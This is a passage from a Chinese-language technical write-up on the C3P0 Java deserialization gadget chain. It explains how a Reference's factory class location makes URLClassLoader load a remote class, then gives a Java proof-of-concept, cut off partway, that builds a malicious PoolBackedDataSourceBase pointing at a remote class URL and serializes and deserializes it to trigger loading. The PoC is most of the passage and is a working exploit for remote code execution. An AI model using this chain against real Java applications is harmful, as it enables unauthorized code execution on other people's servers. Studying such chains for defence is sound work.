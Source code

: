 如果var11不为null, 则可以通过 URLClassLoader 去加载远程类,  var11获取是在 Reference#getFactoryClassLocation 获取 

```
public String getFactoryClassLocation() {
    return classFactoryLocation;
}
```

`Class.forName` , 可以控制forName⽅法的第⼀个和第三个参数，并且第⼆个参数为 true，那么就可以利用BCEL, ClassLoader实现任意代码加载执行. 第二个参数传了 true，那么给定的类如果之前没有被初始化过，就会被初始化.

此外, PoolBackedDataSource 继承 AbstractPoolBackedDataSource, 同时 AbstractPoolBackedDataSource 继承 PoolBackedDataSourceBase, 致使触发 readObject 时调用 PoolBackedDataSourceBase#readObject, 用其本身也是可行的, 其它的类都会覆写了writeObject和readObject

POC

```java
package cve.fastjson;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;

import com.mchange.v2.c3p0.PoolBackedDataSource;
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import org.apache.commons.codec.binary.Base64;
import sun.reflect.ReflectionFactory;

public class C3P0_HTTP {
    public static void main(String[] args) throws Exception{
        String url = "http://127.0.0.1:8079/";
        String className = "test";
        // 不利用构造函数初始化对象, 减小生成代码量
        // Father
        PoolBackedDataSourceBase datasource = createWithoutConstructor(PoolBackedDataSourceBase.class);
        // Son
//        PoolBackedDataSource datasource = createWithoutConstructor(PoolBackedDataSource.class);

        getField(PoolBackedDataSourceBase.class, "connectionPoolDataSource").set(datasource, new PoolSource(className, url));

        try{
            // serialize
            ByteArrayOutputStream barr = new ByteArrayOutputStream();
            ObjectOutputStream objectoutputstream = new ObjectOutputStream(barr);
            objectoutputstream.writeObject(datasource);
            objectoutputstream.close();
            System.out.println(Base64.encodeBase64String(barr.toByteArray()));
            // unserialize
            ObjectInputStream objectinputstream = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
            objectinputstream.readObject();
            objectinputstream.close();
        }catch(Exception e){
```
